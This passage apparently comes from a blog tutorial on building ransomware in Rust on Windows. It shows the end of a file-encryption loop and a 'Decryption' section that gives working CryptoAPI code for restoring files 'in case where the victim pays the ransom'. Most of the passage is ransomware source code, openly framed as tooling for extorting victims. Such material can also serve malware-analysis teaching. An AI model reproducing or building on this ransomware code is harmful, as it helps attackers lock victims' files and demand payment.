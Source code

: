 ``` rust
            println!("Fail to write");
            break;
        }
    }
```


As a result of this, we will be having a fully encrypted file by encrypting with our AES key.


![alt text](https://github.com/cdong1012/cdong1012.github.io/blob/master/uploads/encrypted.JPG =250x250)



#### 6. Decryption


In order to decrypt the file in case where the victim pays the ransom, we can just do the exact same thing with [CryptDecrypt](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt).


``` rust
    let mut EOF = 0;
    let mut count = 0;

    pb_buffer = Vec::new();
    pb_buffer.resize(buffer_len as usize, 0u8);

    while EOF == 0 {
        if ReadFile(
            dest_handle,
            pb_buffer.as_ptr() as *mut _,
            block_len,
            &mut count,
            null_mut(),
        ) == 0
        {
            println!("Error reading 0x{:x}", GetLastError());
            break;
        }
        println!("count {}", count);
        if count < block_len {
            EOF = 1;
        }

        //CryptDecrypt(h_key, 0, EOF, 0, pb_buffer.as_mut_ptr(), &mut dw_count)

        if CryptDecrypt(h_key, 0, EOF, 0, pb_buffer.as_mut_ptr(), &mut count) == 0 {
            println!("Fail to decrypt 0x{:x}", GetLastError());
            break;
        }

        if WriteFile(
            decrypt_handle,
            pb_buffer.as_ptr() as *const _,
            count,
            &mut count,
            null_mut(),
        ) == 0
        {
            println!("Fail to write");
            break;
        }
    }

```
